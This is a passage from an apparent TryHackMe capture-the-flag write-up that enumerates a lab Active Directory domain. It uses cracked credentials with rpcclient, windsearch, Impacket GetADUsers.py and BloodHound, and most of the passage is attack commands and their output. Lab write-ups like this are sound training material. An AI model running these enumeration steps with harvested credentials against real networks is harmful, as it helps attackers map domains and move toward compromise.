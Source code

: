 - Now we have the credentials for a user in the network, now we can enumerate stuffs in the network as an authenticated user
- Enumerate other users

```bash
# via rpcclient
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ rpcclient -U 'svc-admin' 10.10.209.16
Enter WORKGROUP\svc-admin's password: 
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
[..snip..]

# via windsearch
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]                                                                                            
└─$ windsearch -d spookysec.local -u 'svc-admin' -p 'management2005' -o windsearch.out -m users                                                  
[+] windsearch.out written                                                                                                                       
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]                                                                                            
└─$ cat windsearch.out   
[..snip..]
dn: CN=svc admin,OU=Staff,DC=spookysec,DC=local
cn: svc admin
sAMAccountName: svc-admin
userPrincipalName: svc-admin@spookysec.local

dn: CN=backup,OU=Administrator,DC=spookysec,DC=local
cn: backup
sAMAccountName: backup
userPrincipalName: backup@spookysec.local
[..snip..]

# via impackets
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ GetADUsers.py -dc-ip 10.10.209.16 spookysec.local/svc-admin:management2005 -all
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Querying 10.10.209.16 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2020-09-17 18:53:28.851411  2020-09-17 19:03:37.467564 
Guest                                                 <never>              <never>             
[..snip..]
```

- Enumeration with bloodhound

```bash
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory/bloodhound]                                                                                 
└─$ bloodhound-python -c all -ns 10.10.209.16 -d spookysec.local -u 'svc-admin' -p 'management2005'
```
